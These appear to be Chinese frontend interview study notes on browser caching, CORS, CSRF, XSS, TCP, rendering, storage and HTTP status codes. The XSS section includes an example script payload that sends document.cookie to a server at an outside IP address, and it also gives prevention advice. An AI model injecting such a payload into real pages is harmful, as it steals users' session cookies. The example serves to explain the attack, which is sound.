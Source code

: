 # 浏览器

### 问题一 ：前端性能优化 

#### 浏览器缓存
    合理运用浏览器缓存可以减少服务器压力，提高网页响应速度,浏览器会根据响应header里的缓存相关字段来设置缓存，浏览器缓存分为强缓存和协商缓存，优先强缓存
    强缓存:强制使用缓存 通过响应头 Cache-Control：（private,public,no-cache,mag-age=0,no-store）字段控制  如果传了no-cache 证明需要使用协商缓存
    协商缓存:每次使用前需要和服务器协商一下是否使用缓存，服务器通过响应头（Etag：1）决定是否应用协商缓存， (以后每次请求 都会在头里带上If-None-Match:1) 
    如果返回304 继续使用缓存，如果服务器数据已更新（修改Etag值），重新返回200 和新的responseBody数据 替换缓存. 
#### 图片
    使用精灵图 减少图片资源，可以使用图片懒加载
#### 压缩
    使用gzip压缩服务返回的数据 请求头设置（Accept-Encoding: GZIP, Deflate） 服务器 设置响应头Content-Encoding: GZIP

### 问题二 ：对跨域的理解和解决
    浏览器出于安全考虑，一个源的网站不允许与另一个源的网站交互，同源即 协议 主机 端口都相同 执行脚本的时候会检测是否同源ajax不同源的会被拦截
    跨域资源嵌入是可以的  <img> <script> <link> <iframe>

    1.通过后台响应头设置允许跨域 
    2.通过nginx 监听同一端口  通过/api 路径来区分不同服务的访问

### 问题三 ：csrf和xss攻击理解和预防
    csrf 利用浏览器信任 统一domain下的请求，会携带cookie  a打开银行网站,登录后没关闭此窗口，然后打开了含有攻击性的网站,网站内有<img src='http://转账代码'> 头中会携带cookie
    预防 ：1.数据安全性高高的避免使用 get请求 ，2.用token认证  3.对接口加验证码校验
    xss 嵌入恶意的js代码然后获取用户cookie  比如博客评论 在内容里嵌入<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script> 我的服务就拿到了cookie
    预防：1.过滤特殊字符  2. 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。

### 问题四 tcp 连接的三次握手为什么不能改成2次
    考虑到client A 请求与服务B建立连接,由于网络原因这次报文一定时间内没到达B ，A又发起了一次连接现在开始传数据没传完后关闭，一开始那次请求，到达了B ,B现在发送确认请求，
    然后一直等着A 来发送数据，A本身已经不想发送数据了，这样造成了服务资源浪费。
### 问题五 简述tcp连接3次握手过程
    第一次握手，客户端主动连接服务器，发送初始序列号'seq =x','SYN = 1'同步标志 进入SYN_SEND同步发送状态
    第二次握手，服务器收到消息后 发送确认同步标志 'SYN=1'和确认标志'ACK=1',并发送自己的序列号'seq=y'和客户端确认序列'ack=x+1' 进入同步接收'SYNC_RECV'状态
    第三次握手，客户端接收后 发送确认标志 'ACK=1'和自己的序列号'seq=x+1'与服务器确认号'ack=y+1'进入建立连接状态，服务器收到后也进入连接状态 
### 问题五 简述tcp和udp的区别
   TCP：                                                                        UDP：
   面向连接，可以传输相对较大数据                                                  无连接，可以传输的数据相对较小
   使用流量控制，拥塞控制保证可靠                                                  不使用流量控制和拥塞控制，尽最大努力交付
   保证传输顺序                                                                   不保证传输顺序
   提供校验和，确认应答，流量控制，拥塞控制 超时重传，序列号，连接管理       
   适用于可靠传输，文件传输                                                        应用于直播，网络电话，视频会议 
### 问题六 简述tcp粘包解决方案
   粘包 服务端会将间隔时间较小连续发送的包粘起来组成一个大包 
   解决：将每次传输的消息分为消息头和消息体，消息头包含这次传输的总长度，服务端解析

### 问题七 浏览器渲染过程
   自上而下先解析<html>形成'DOM Tree'
   如果解析到<Link><Style>解析css 形成'CSS Tree' html和css解析开始并行解析
   遇到<Script>停止文档解析 开始解析js 
   'Dom Tree 和CSS Tree'生成后，将两者结合布局，计算大小位置等,生成'render Tree'
   根据计算好的信息，调用paint ，将内容显示在屏幕上
### 问题八 重绘 回流
   重绘：'render tree'中一些影响外观，但是不影响布局的属性改变，比如bgc-color，整棵树不需要重新构建
   回流： 布局，元素尺寸大小改变，需要重新绘制整棵树，就是回流，页面第一次加载就是回流
### 常见的兼容性问题
   浏览器由于版本不同，内核不同，导致最后渲染出来的的结果有不同，通常使用normalize抹平样试差异 
   默认边距也可能不同
   ie4-8 不支持css3 opacity属性，可以通过css filter来设置
   ie4-8 不支持媒体查询，不支持html5新标签 
   ie4-8 window.event.returnValue =false 阻止默认行为      window.event.cancelBubble = true 防止事件冒泡
   webkit内核 event.preventDefault()                      event.stopPropagation()
### 浏览器默认行为（直接在处理函数中加return false也会阻止默认行为）
    <a href="">会默认跳转地址 通过监听事件 阻止默认行为 就不能跳转了
    <input> 获得焦点后 敲击键盘会自动输入 阻止后 键盘输入无效
    type为submit的input 或者<button>都会触发表达提交，阻止后不提交
### 浏览器本地存储 
    localStorage 存储大约5m大小 永久存储除非删掉
    sessionStorage 存储大约5m大小 关闭浏览器就是失效
    cookie 存储大约4k 不设置过期时间的话 关闭浏览器会失效
    session 存储在服务端 通过服务器设置 一般会以键值对存储在cookie中
    下次请求浏览器会自动带上sessionid去服务器，服务器自动解析sessionid，
    获取session 通过session获取session存储的信息
### 事件委托机制
    由于事件默认是向上冒泡的，操作子盒子的事件可以写在父盒子上，让父盒子去执行
    比如ul 下面多个li 不需要给每个li都设置点击事件，父盒子设置设置点击事件，
    点击子盒子也可以拿到子盒子的标签。
### http状态码
    200 ok
    301：永久重定向；
    302：临时移动，可使用原有URI；
    304：资源未修改，可使用缓存；
    400 服务器无法解析客户端请求
    401 需要请求身份认证
    403 服务器拒绝执行此请求
    404 服务器找不到客户请求资源
    500 服务器内部错误
    502 网关出问题
    503 服务器挂了

### 浏览器 history对象的方法和属性
    length      返回浏览器历史列表中的URL数量
    back()      加载 history 列表中的前一个URL
    forward() 加载 history 列表中的下一个URL
    go()         加载history列表中的某个具体页面。